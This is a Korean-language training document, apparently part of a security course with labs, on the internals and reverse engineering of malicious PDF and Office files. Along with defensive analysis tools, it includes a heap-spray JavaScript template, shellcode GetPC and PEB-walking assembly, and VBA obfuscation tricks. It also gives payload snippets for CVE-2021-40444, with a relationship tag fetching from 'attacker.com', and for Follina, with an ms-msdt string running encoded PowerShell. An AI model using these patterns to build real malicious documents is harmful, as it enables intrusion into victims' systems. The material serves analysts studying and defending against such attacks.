


# 08. 심층 분석: PDF 내부 구조 및 문서형 악성코드(MalDoc) 리버스 엔지니어링 딥다이브

> **핵심 요약**: 본 문서는 APT 조직들이 최초 침투(Initial Access) 벡터로 가장 빈번하게 악용하는 악성 PDF와 오피스 문서(MalDoc)의 내부 파일 포맷 규격, 바이트 레벨 파싱 원리, 힙 스프레이(Heap Spraying)와 쉘코드(Shellcode) 메모리 에뮬레이션, 그리고 주요 CVE 취약점(CVE-2017-11882, CVE-2021-40444, CVE-2022-30190)의 작동 원리를 심층적으로 분석합니다.

---

## 1. 문서형 악성코드(MalDoc)의 위협 생태계 및 침투 라이프사이클

현대 표적형 사이버 공격(APT)의 80% 이상은 스피어 피싱(Spear Phishing) 이메일에 첨부된 악성 문서를 통해 시작됩니다. 실행 파일(`.exe`, `.dll`)에 비해 PDF나 Office 문서(`.doc`, `.docx`, `.xls`)는 보안 게이트웨이(Email Security Gateway)의 정책적 차단을 우회하기 쉬우며, 일반 사용자의 심리적 경계심을 낮출 수 있는 최적의 공격 매개체입니다.



---

## 2. PDF 파일 포맷의 바이트 레벨 내부 구조

PDF(Portable Document Format, ISO 32000-1)는 단순한 텍스트 뷰어가 아닌 인터랙티브 객체 그래프(Object Graph), 폰트 렌더러, 포스트스크립트 인터프리터, 그리고 독립적인 자바스크립트 엔진을 갖춘 복합 실행 환경입니다.

### 2.1 PDF 4대 기본 구성 영역

```
+-----------------------------------------------------------+
| 1. Header: %PDF-1.7                                       |
|    %\xe2\xe3\xcf\xd3 (바이너리 파일 인식용 매직 바이트)     |
+-----------------------------------------------------------+
| 2. Body (객체 계층 구조):                                  |
|    1 0 obj << /Type /Catalog /Pages 2 0 R >> endobj       |
|    2 0 obj << /Type /Pages /Kids [3 0 R] /Count 1 >> endobj|
|    3 0 obj << /Type /Page /Parent 2 0 R ... >> endobj     |
|    4 0 obj << /Filter /FlateDecode /Length 128 >> stream  |
|    ... 압축된 스트림 데이터 ...                           |
|    endstream endobj                                       |
+-----------------------------------------------------------+
| 3. Cross-Reference Table (XREF):                          |
|    xref                                                   |
|    0 5                                                    |
|    0000000000 65535 f                                     |
|    0000000015 00000 n (1번 객체 오프셋: 15 바이트)         |
|    0000000074 00000 n (2번 객체 오프셋: 74 바이트)         |
+-----------------------------------------------------------+
| 4. Trailer:                                               |
|    trailer << /Size 5 /Root 1 0 R >>                      |
|    startxref                                              |
|    492 (XREF 테이블의 바이트 오프셋)                       |
|    %%EOF                                                  |
+-----------------------------------------------------------+
```

1. **Header (헤더)**:
   - `%PDF-1.x`: 지원 규격 버전(1.0 ~ 2.0).
   - 바이너리 주석: 헤더 직후 `%\xe2\xe3\xcf\xd3`와 같이 0x80 이상의 바이트가 포함되어 FTP나 전송 계층에서 텍스트 모드로 변환되어 손상되는 것을 방지합니다.

2. **Body (본문 객체)**:
   - PDF의 모든 데이터는 `간접 객체(Indirect Object)` 형태로 저장됩니다.
   - 문법: `<오브젝트ID> <세대번호> obj ... endobj`
   - 객체 유형: 정수, 실수, 불리언, 문자열(`(...)` 또는 `<HEX>`), 이름(`/Name`), 배열(`[...]`), 딕셔너리(`<<...>>`), 스트림(`stream ... endstream`).

3. **Cross-Reference Table (XREF, 교차 참조 테이블)**:
   - 각 객체가 파일 시작점으로부터 몇 바이트 오프셋에 위치하는지를 기록하는 20바이트 고정 길이 레코드 배열입니다.
   - 포맷: `nnnnnnnnnn ggggg f/n \r\n` (10자리 오프셋, 5자리 세대번호, free/in-use 플래그).
   - PDF 1.5부터는 XREF 테이블 자체가 압축된 스트림 객체(`/Type /XRef`)로 인코딩될 수 있습니다.

4. **Trailer (트레일러)**:
   - 파서가 문서를 열 때 가장 먼저 읽는 영역으로 파일의 맨 끝에 위치합니다.
   - `/Root`: 객체 트리의 최상위 노드인 `Catalog` 객체의 ID(예: `1 0 R`).
   - `/Info`: 메타데이터 딕셔너리.
   - `startxref`: XREF 테이블이 위치한 바이트 오프셋.
   - `%%EOF`: 문서 종료 시그니처.

### 2.2 증분 갱신(Incremental Update)과 안티 포렌식

PDF는 문서를 수정할 때 원본 본문을 다시 쓰지 않고, 파일 끝에 수정된 새 객체들과 새로운 XREF, 새로운 Trailer를 덧붙이는 **증분 갱신(Incremental Update)**을 지원합니다.
공격자는 정상적인 문서 끝에 악성 스크립트와 새로운 루트 카탈로그를 덧붙여 기존 안티바이러스의 전방위 정적 검사를 회피하거나 이전 버전의 이력을 은닉합니다.

### 2.3 PDF 스트림 인코딩 필터 (Stream Filters)

악성 페이로드는 다양한 필터로 압축 및 난독화되어 탐지를 우회합니다:
- `/FlateDecode`: zlib/deflate 압축 (가장 보편적).
- `/ASCIIHexDecode`: 16진수 문자열 인코딩.
- `/ASCII85Decode`: Base85 기반 압축 인코딩.
- `/LZWDecode`: Lempel-Ziv-Welch 압축 알고리즘.
- `/RunLengthDecode`: 연속된 바이트 런렝스 압축.

다중 필터 체이닝(Filter Chaining) 예시:
```pdf
5 0 obj
<<
  /Type /Action
  /S /JavaScript
  /Filter [ /ASCIIHexDecode /FlateDecode ]
  /Length 240
>>
stream
789c4b2a49...
endstream
endobj
```

### 2.4 주요 악성 트리거 태그 (Triggers & Actions)

| 태그명 | 설명 | 악용 방식 |
|---|---|---|
| `/OpenAction` | 문서가 열리는 순간 자동으로 트리거되는 기본 동작 | 사용자 인터랙션 없이 JavaScript 또는 익스플로잇 즉시 실행 |
| `/AA` (Additional Actions) | 페이지 열기(`/O`), 닫기(`/C`), 포커스, 폼 필드 조작 이벤트 | 리더의 샌드박스 탐지 후 특정 사용자 동작 시점에 악성코드 지연 실행 |
| `/JavaScript`, `/JS` | PDF 내부 내장 자바스크립트 엔진 호출 | 메모리 조작, 힙 스프레이, 취약 API 호출 |
| `/Launch` | 외부 애플리케이션 및 시스템 명령 실행 | `cmd.exe`, `powershell.exe` 직접 호출 시도 |
| `/EmbeddedFiles` | PDF 내부에 임의의 바이너리 파일 은닉 | 악성 실행 파일(`.exe`, `.vbs`, `.doc`)을 드롭 후 `/Launch` 연계 |
| `/RichMedia`, `/SWF` | Flash/ActionScript 객체 포함 | 어도비 플래시 플레이어의 메모리 취약점(CVE-2015-5119 등) 연계 공격 |

---

## 3. 힙 스프레이(Heap Spraying) 원리와 쉘코드 분석

메모리 손상 취약점(UAF, OOB, 버퍼 오버플로우)이 발생했을 때 프로그램의 제어 흐름(EIP/RIP)을 공격자가 원하는 코드로 전환하려면, 메모리 상의 예측 가능한 고정 주소에 쉘코드가 배치되어 있어야 합니다. 이때 사용하는 기법이 **힙 스프레이(Heap Spraying)**입니다.

### 3.1 힙 스프레이 동작 메커니즘

32비트 프로세스(Adobe Reader 등)의 주소 공간(4GB)에서 `0x0c0c0c0c` 또는 `0x0d0d0d0d`는 약 200MB 위치에 존재합니다. 공격자는 자바스크립트를 이용해 NOP 슬레드(NOP Sled)와 쉘코드로 채워진 블록을 100MB~300MB 규모로 대량 할당하여, 취약점으로 인해 임의의 포인터가 `0x0c0c0c0c`로 점프하더라도 무조건 NOP 슬레드를 타고 내려가 쉘코드가 실행되도록 보장합니다.

```javascript
// PDF 악성 자바스크립트 내 힙 스프레이 구현 패턴
var nop_sled = unescape("%u9090%u9090"); // NOP (x86: 0x90 0x90)
var shellcode = unescape("%ue8fc%u0082%u0000%u8960%u31e5..."); // 악성 쉘코드

// 1개 블록 크기: 약 1MB (0x100000 바이트)
var block_size = 0x100000;
var header_size = 0x20; // 힙 관리 헤더 오프셋 고려
var payload_size = block_size - (shellcode.length * 2 + header_size);

// NOP 슬레드를 필요한 크기만큼 증폭
while (nop_sled.length * 2 < payload_size) {
    nop_sled += nop_sled;
}
nop_sled = nop_sled.substring(0, payload_size / 2);

// [NOP Sled] + [Shellcode] 결합 블록 생성
var spray_block = nop_sled + shellcode;

// 메모리에 200개 블록(약 200MB)을 연속 할당하여 0x0c0c0c0c 주소를 덮음
var heap_memory = new Array();
for (var i = 0; i < 200; i++) {
    heap_memory[i] = spray_block + "s";
}
```

### 3.2 쉘코드(Shellcode) 내부 아키텍처 및 GetPC 기법

문서형 악성코드에 포함된 쉘코드는 정적 주소를 사용할 수 없으므로(위치 독립 코드, Position-Independent Code), 런타임에 자신의 현재 실행 주소를 알아내는 **GetPC (Get Program Counter)** 루틴을 반드시 포함합니다.

```assembly
; 1. FSTENV 기법을 이용한 GetPC
fnstenv [esp-0xc]
pop     eax         ; EIP 주소가 EAX에 로드됨

; 2. Call/Pop 기법을 이용한 GetPC
    call get_eip
get_eip:
    pop  ebx        ; EBX = get_eip 함수의 실제 런타임 메모리 주소
    sub  ebx, 5     ; 원본 기준 오프셋 보정

; 3. PEB(Process Environment Block) 탐색 및 API 동적 해석
    mov  eax, fs:[0x30]       ; EAX = PEB 구조체 포인터
    mov  eax, [eax + 0x0c]    ; EAX = PEB_LDR_DATA
    mov  esi, [eax + 0x1c]    ; ESI = InInitializationOrderModuleList (kernel32.dll)
    lodsd
    mov  ebp, [eax + 0x08]    ; EBP = kernel32.dll 베이스 주소
```

이후 쉘코드는 `kernel32.dll`의 Export Address Table(EAT)을 파싱하여 `LoadLibraryA`, `GetProcAddress`, `WinExec`, `URLDownloadToFileA` 등의 주소를 계산한 뒤 C2 접속을 개시합니다.

---

## 4. MS Office OLE 및 OOXML 내부 아키텍처와 매크로 분석

### 4.1 OLE Compound File Binary Format (CFBF) 구조

레거시 오피스 포맷(`.doc`, `.xls`, `.ppt`)은 파일 내부에 작은 파일 시스템을 구현한 복합 바이너리 포맷입니다:
- **매직 바이트**: `\xD0\xCF\x11\xE0\xA1\xB1\x1A\xE1` (한글 표기: "DOCFILE")
- **Header**: 섹터 크기(일반적으로 512바이트), FAT 섹터 인덱스 테이블.
- **FAT / Mini-FAT**: 디스크의 FAT처럼 스트림 데이터 조각들을 링크드 리스트로 연결.
- **Directory Entries**: 파일 시스템의 폴더(`Storage`)와 파일(`Stream`) 목록.

### 4.2 VBA 매크로 저장 원리와 MS-OVBA 압축

Office 문서 내 VBA 코드는 `VBA` 스토리지 아래 `dir` 스트림 및 모듈 스트림(`Module1`)에 저장됩니다:
1. **MS-OVBA 압축**: VBA 코드는 단순 텍스트가 아니라 Microsoft의 런렝스(Run-Length) 기반 독자 압축 알고리즘으로 압축되어 저장됩니다.
2. **P-Code와 VBA Purging**:
   - 모듈 스트림 내부에는 원본 소스코드 텍스트와 함께 컴파일된 바이트코드인 **P-Code (Pseudo Code)**가 함께 저장됩니다.
   - **VBA Purging**: 공격자가 텍스트 형태의 소스코드를 완전히 삭제하고 악성 P-Code만 남겨두면, 일반적인 소스코드 기반 안티바이러스 탐지기를 우회하면서 오피스 엔진에서 직접 실행되도록 만들 수 있습니다.

### 4.3 악성 VBA/VBS 난독화 패턴 및 분석 기법

공격자들은 휴리스틱 탐지를 무력화하기 위해 다음과 같은 난독화 테크닉을 구사합니다:

```vba
' 1. Chr/ChrW 및 산술 연산 난독화
cmd = Chr(80 + 3) & Chr(111) & Chr(119 + 0) & Chr(101) & Chr(114) ' "Power"

' 2. 문자열 치환 및 역순 분할
enc_str = "llehswop"
real_cmd = StrReverse(enc_str) ' "powershell"

' 3. 환경 변수 및 임의 구분자 분할
raw = "c^m^d^.^e^x^e"
clean_cmd = Replace(raw, "^", "")

' 4. 폼 컨트롤(UserForm) 또는 윈도우 메타데이터 은닉
' 문서 본문의 숨은 텍스트 상자(TextBox1.Text)나 문서 속성(Comments)에 Base64 페이로드 은닉
Execute(TextBox1.Text)
```

---

## 5. 실전 CVE 기반 문서 익스플로잇 심층 분석

### 5.1 CVE-2017-11882 (수식 편집기 버퍼 오버플로우)

- **취약점 위치**: Microsoft Office에 포함된 레거시 수식 편집기 `EQNEDT32.EXE`.
- **근본 원인**: 수식 OLE 객체 데이터를 파싱하는 함수(`sub_41160F`)에서 글꼴 이름(Font Name) 레코드를 처리할 때 `strcpy`를 사용하면서 대상 버퍼 크기(32바이트)를 검증하지 않아 스택 오버플로우 발생.
- **공격 장점**: `EQNEDT32.EXE`는 2000년에 빌드된 고대 바이너리로 ASLR 및 DEP가 미적용되어 있어 주소 공간이 고정되어 있으며 ROP 체인 없이도 `WinExec` 주소를 직접 덮어쓸 수 있음.

```text
[ 수식 객체 바이너리 스트림 레이아웃 ]
+-------------------+--------------------+------------------------+
| 헤더 (0x1C 바이트) | Font Record Header | 악성 페이로드 (글꼴 이름) |
+-------------------+--------------------+------------------------+
                                         | 32바이트 패딩 | RET 주소 | 실행 명령 |
                                         | 'A' * 36     | 0x00430C12 (WinExec) |
```

### 5.2 CVE-2021-40444 (MSHTML OLE 원격 코드 실행)

- **취약점 위치**: Word 문서 내 OLE 관계 태그(`document.xml.rels`)의 외부 리소스 핸들러.
- **공격 체인**:
  1. `word/_rels/document.xml.rels` 파일에 외부 악성 서버의 HTML 파일을 참조하는 OLE 객체 등록:
     ```xml
     <Relationship Id="rId99" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="http://attacker.com/mal.html" TargetMode="External"/>
     ```
  2. 문서가 열리면 Word가 내부적으로 MSHTML(IE 엔진)을 구동하여 `mal.html` 렌더링.
  3. `mal.html` 내 자바스크립트가 악성 ActiveX 제어기를 로드하고 `.cab` 압축 파일 다운로드.
  4. CAB 추출 경로 트래버설(`../AppData/Local/Temp/championship.inf`)을 악용하여 악성 INF 파일을 임의 위치에 드롭.
  5. `rundll32.exe setupapi.dll,InstallHinfSection`을 간접 호출하여 페이로드 실행.

### 5.3 CVE-2022-30190 (Follina - MSDT URL 프로토콜 인젝션)

- **취약점 위치**: Microsoft Support Diagnostic Tool (`ms-msdt:`).
- **공격 방식**:
  - `document.xml.rels`에서 외부 웹 리소스를 호출.
  - 외부 서버는 다음과 같은 `ms-msdt:` 프로토콜 URL을 포함한 HTML 문서를 반환:
    ```html
    <script>
    location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_SelectProgram=NotExists IT_BrowseForFile=$(powershell -enc ...)\"";
    </script>
    ```
  - 단, MSHTML 버퍼 제한을 통과하기 위해 최소 4096바이트 이상의 더미 주석(`<!-- AAAAA... -->`)이 포함되어야 페이로드가 정상 처리됨.

---

## 6. 실전 분석 도구 체인 및 트리아지 프로토콜

문서형 악성코드를 안전하고 신속하게 분석하기 위해 권장되는 도구 체인과 절차입니다.



### 6.1 핵심 도구 명령어 치트시트

```bash
# 1. PDF 빠른 위험 태그 전수 검사
pdfid sample.pdf

# 2. PDF 내 자바스크립트 스트림 인덱스 확인 및 자동 압축 해제 덤프
pdf-parser -s JavaScript sample.pdf
pdf-parser -o <오브젝트ID> -f -d output_stream.bin sample.pdf

# 3. peepdf를 이용한 대화형 분석
peepdf -i sample.pdf
# peepdf > stream 5
# peepdf > js_code 5

# 4. Office 문서 매크로 스트림 식별 및 코드 추출
oledump.py sample.doc
oledump.py -s <스트림번호> -v sample.doc > vba_code.txt

# 5. olevba를 통한 위험 API 및 자동 실행 루틴 자동 감사
olevba sample.docm --decode

# 6. ViperMonkey를 이용한 VBA 샌드박스 에뮬레이션 (동적 API 호출 가로채기)
vmonkey sample.doc

# 7. 추출된 쉘코드의 에뮬레이션 분석 (scdbg)
scdbg -f shellcode.bin -s -1
```

---

## 7. 랩 실습 및 자가 검증 연계

- **Lab 14 (문서형 악성코드 & PDF 분석 랩)**:
  - `python3 vhack.py lab start 14` (포트 `8014`)
  - OLE 스트림 추출, FlateDecode 난독화 해제, CVE-2021-40444 외부 관계 태그 정제 실습.
- **CTF 문제 연계**:
  - `LAB14_MALDOC`: DocArmor 악성 매크로 및 PDF 쉘코드 적출 플래그 챌린지.
